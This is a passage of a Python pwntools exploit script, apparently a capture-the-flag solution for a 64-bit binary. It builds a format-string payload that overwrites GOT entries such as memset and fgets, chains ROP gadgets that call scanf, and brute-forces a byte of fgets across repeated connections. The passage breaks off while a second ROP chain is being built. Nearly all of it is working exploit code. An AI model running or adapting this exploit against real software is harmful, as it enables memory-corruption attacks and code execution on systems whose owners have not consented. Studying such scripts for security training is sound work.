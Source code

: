 ```py
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)

if args.LEAK:
    rop = ROP(exe)

    rop.raw(rop.find_gadget(['ret'])[0])
    rop.call('__isoc99_scanf', [exe.got['fgets']])

    ropchain = flat(rop.chain(), length=128)

    fmt = "%4${}c".format(24 + len(ropchain)).encode()

    payload = flat({
        0: fmt,
        0x8: b"%12$p%4c",
        0x10: pack(exe.got['memset']) + ropchain,
        }, filler=b' ')

    info("Payload size: " + str(len(payload)))

    overwrites = flat([
        hex(rop.find_gadget(['leave', 'ret'])[0]).encode(),
        " %{}c".format(8).encode(),
        ])

    print(overwrites)
    fgets_guess = ""

    for i in range(0x30, 0x100, 0x10):
        print("*** TRYING FGETS {} ***".format(hex(i)))
        io = start()
        io.send(fmt)
        io.send(payload)
        io.send(overwrites)
        io.send(p8(i))

        try:
            io.recv(1, timeout=2)
            io.close()
            fgets_guess = hex(i)
            break
        except:
            io.close()

    rop = ROP(exe)

    rop.raw(rop.find_gadget(['ret'])[0])
    rop.call('__isoc99_scanf', [exe.got['__isoc99_scanf']])

    ropchain = flat(rop.chain(), length=128)

```